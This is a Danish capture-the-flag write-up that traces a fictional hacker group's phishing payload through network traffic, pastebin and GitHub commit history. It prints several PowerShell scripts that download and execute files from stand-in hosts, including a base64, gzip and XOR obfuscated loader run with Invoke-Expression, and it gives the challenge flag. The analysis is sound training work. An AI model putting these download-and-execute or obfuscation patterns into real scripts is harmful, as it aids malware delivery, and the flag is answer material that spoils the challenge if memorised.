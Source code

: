 # Writeup

Opgaveteksten beder os om at vurdere, hvor selve payloadet i angrebet er hentet fra, og om vi kan finde andre payloads.

Har man løst [Nisseware: Phishing](../nisseware-phishing/), har man sandsynligvis fundet det relevante link nu, men opgaven er lavet, så den kan løses separat med et kig på netværkstrafikken.

Åbnes `network_logs.pcapng` ses som noget af det første en stream af HTTP-trafik:

![Screenshot af HTTP trafik](img/http.png)

Her ses, at der er lavet et `GET`-request mod http://raw.githubusercontent.com/N1ss3b4nd3n/N1ss3b4nd3n/main/README.md - har man løst phishingopgaven, vil man tydeligt kunne genkende dette som den URL, payloadet hentes ned fra, før det eksekveres. Vi er her heldige, at `N1ss3b4nd3n` er kommet til at bruge `HTTP` og ikke `HTTPS` - dvs. vi kan se den fulde URL og får blot et `301 - Moved Permanently` svar fra `GitHub`, der automatisk redirecter til `HTTPS`-udgaven, hvorefter den fulde sti og indholdet af requests og responses er krypteret.

Tilgår vi linket, ser vi, at det bare er en rå tekstfil, der indeholder linket https://pastebin.com/raw/GdyerNX8, hvor følgende script er hosted:

```ps1
$fileUrl = "http://det.jul.det.cool/not_sus.ps1"
(New-Object System.Net.WebClient).DownloadFile($fileUrl, (Get-Location).Path + "\payload.ps1")
Start-Process (Get-Location).Path + "\payload.ps1"
```

Det virker dog ikke som en helt gyldig URL - men det er et godt spor! Fjerner vi `/raw` fra URLen, kan vi tilgå scriptet direkte på pastebin siden: https://pastebin.com/GdyerNX8.

![N1ss3b4nd3ns pastebin](img/pastebin.png)

Her ses at payloadet står som unlisted og er oprettet af brugeren `N1ss3b4nd3n` - det kunne da være interessant at se, hvad de ellers har af bins: https://pastebin.com/u/N1ss3b4nd3n.

Der ligger faktisk kun en enkelt public bin: https://pastebin.com/hQcmjWHL. Den ser dog rigtig interessant ud:

```
Medlemsliste:
HEMMELIGT (chefen)
Lun73
G3mys3
HrM0rt3ns3n
Sk1pp3r
P1l
```

Det virker som et rigtig godt spor at lave OSINT på, og efter denne opgave kan man naturligt fortsætte med [Nisseware: OSINT](../nisseware-osint/).
Men inden da skal vi stadig løse den stillede opgave: At finde deres payloadmekanisme og lede efter andre payloads.

Vi har adgang til en fil fra et `GitHub` repo - måske vi kan tilgå gruppens `GitHub` direkte!
Vi prøver at gå til https://github.com/N1ss3b4nd3n og ser, vi fint kan se deres profil. Der er umiddelbart kun et enkelt synligt repository, nemlig det, der hostede payloadlinket:

https://github.com/N1ss3b4nd3n/N1ss3b4nd3n

Her ser vi dog, der står `10 Commits`, så det virker relevant at tage et kig på!

![Screenshot af GitHub commit history](img/commits.png)

Vi tjekker ændringen i dem alle og ser, at det er en lang række links, bl.a. flere til pastebin og en række umiddelbart sketchy hostnames:

```
https://pastebin.com/raw/P6cUKLkV
https://pastebin.com/raw/pNeMxgSM
https://pastebin.com/raw/MbP0cAfn
https://pastebin.com/raw/CiZTV3BA
https://danger-site.hacker/mal.ps1
https://pastebin.com/raw/xNkVzDGn
https://nothing-suspicious-here.jul/script.ps1
https://pastebin.com/raw/GXvNcLqw
https://pastebin.com/raw/GdyerNX8
```

Noget tyder altså på, at `N1ss3b4nd3n` hoster deres payloads rundt omkring, bl.a. på pastebin, og opdaterer dette repo, hver gang, de vil pege på et nyt script i stedet, så de på den måde kan holde URLen hardcoded i deres phishingangreb. Så må man selv vurdere, hvor gennemtænkt det er, at anvende et versionsstyringsværktøj med commit history.

De første to pastebin sider er nede igen, så der har gruppen nok fjernet deres payload, eller det kan være blevet flagged og fjernet af pastebin.
De to non-pastebin URLs kan heller ikke tilgås. Det efterlader os med fem scripts, der bør kigges igennem, og vi ser på dem i rækkefølge:

```ps1
$fileUrl = "http://134.34.f4k3.1337/download.exe"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```

Det første script downloader tilsyneladende en `exe`-fil fra et malicious site, gemmer det lokalt på maskinen og eksekverer det.
URLen kan dog ikke tilgås, og vi kigger videre på næste script:

```ps1
[Byte[]]$AssemblyBytes = [System.Text.Encoding]::UTF8.GetBytes("H4sIABsdUmUA/y3Oa0uzUAAAYC1ZRRDhC0u87OLqaE6RM8YEx8KgKas+7OZxc14m1lbx6srID8PVXx9Bv+B53q5cFf4zPPIsjRZarXNc5bAi47LVF4tKs11y8L7+4Hxn2tRsHkgLZ+ryCerCpRnOUe17h617aOAdNTJDPO2UBsHhVvj/ecmX7vDbH2V6kz+WJ4HbVKz4dVXY/QpenwOtRcYPhg6ChG6YlWckY6EERVMvD3kJKbWXPOz7vDwWSDWw6QtRCgHeDliSOQFWSl2PRqZbV+iEEMwZSaXRRuhCz/PH0u/qidEjS4VWSrT9iWP0YoaArWrhD1XNlfUNu5xYIKbinEZ/xrZxb5/vASPNHMIDAQAA")

# Base64 decode bytes
$decodedBytes = [System.Convert]::FromBase64String([System.Text.Encoding]::UTF8.GetString($AssemblyBytes))
$stream = New-Object System.IO.MemoryStream(,$decodedBytes)
$gzip = New-Object System.IO.Compression.GzipStream($stream, [System.IO.Compression.CompressionMode]::Decompress)

# Gzip decompress
$buffer = New-Object byte[](1024)
$ms = New-Object System.IO.MemoryStream
while($true) {
    $read = $gzip.Read($buffer, 0, 1024)
    if ($read -le 0) { break }
    $ms.Write($buffer, 0, $read)
}
$script = $ms.ToArray()
$ms.Close()
$gzip.Close()
$stream.Close()

# XOR decode
$key = [System.Text.Encoding]::UTF8.GetBytes("NC3CTF2023")
for ($i = 0; $i -lt $script.Length; $i++) {
    $script[$i] = $script[$i] -bxor $key[$i % $key.Length]
}

# Invoke result as PS script
Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString($script))
```

Dette ser noget mere interessant ud! Vi har umiddelbart en base64 encoded streng, der decodes og herefter dekomprimeres med `gzip`.
Resultatet XOR decryptes med nøglen `"NC3CTF2023"` og sidst eksekveres det som en kommando. Vi kan køre de samme commands i PowerShell og igen udskifter `Invoke-Expression` med `Write-Host` for at printe kommandoen i stedet for at eksekvere den. Alternativt kan [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Gunzip()XOR(%7B'option':'UTF8','string':'NC3CTF2023'%7D,'Standard',false)) anvendes med lidt større sikkerhed. Her skal blot bruges `From Base64`, `Gunzip` og sidst `XOR` med `Key` sat til `NC3CTF2023` i `UTF8` mode. Resultatet bliver uanset metoden:

```ps1
$fileUrl = "http://321.123.f4k3.1337/megetfarligfil.exe&token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```

Altså igen et lignende payload, der henter en executable fra en URL og eksekverer den.
Mest interessant er selvfølgelig den URL parameter, der er sat til flaget: `token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`.

Sådan! Endnu en opgave klaret! Men vi bør lige færdiggøre analysen og kigge de resterende tre scripts igennem:

```ps1
(New-Object System.Net.WebClient).DownloadFile("https://888.0.24.12/script.bat", (Get-Location).Path + "\download.bat")
Invoke-Item (Get-Location).Path + "\download.bat"
```

Script tre er ikke umiddelbart interessant, der hentes og eksekveres en `bat`-fil, fra en utilgængelig URL.
Det allersidste script er det, vi allerede så, da vi først fandt linket i phishingopgaven eller netværkstrafikken, men det næstsidste er nyt:

```ps1
(New-Object System.Net.WebClient).DownloadFile("http://julebal-i-nisseland.jul/client.exe", (Get-Location).Path + "\client.exe")
$path = ((Get-Location).Path + "\client.exe")
$args = "-addr", "n1ss3b4nd3n.jul:8080"
Invoke-Expression "$path $args"
```

Dette script henter filen `client.exe` og eksekverer følgende kommando:

```console
client.exe -addr n1ss3b4nd3n.jul:8080
```

Potentielt mere interessant end de foregående, men vi kan ikke tilgå nogle af de URLs.
Er man lidt opmærksom, vil man dog kunne se i commit history, at dette script var aktivt fra 23. november 12:10 til 28. november 08:18, og fra netværkstrafikken ses at linket blev tilgået 28. november 02:34 - det er altså dette payload, der blev hentet ned på Alfs computer og eksekveret.

Dette er interessant for næste opgave og vil være en stor hjælp til [Nisseware: Exfiltration](../nisseware-exfiltration/).

Vi har altså nu flere spor at gå efter og kan fortsætte i mindst to retninger:

- Pastebin medlemslite: [Nisseware: OSINT](../nisseware-osint/)
- Faktisk eksekveret payload: [Nisseware: Exfiltration](../nisseware-exfiltration/)

**Flag**

`NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`
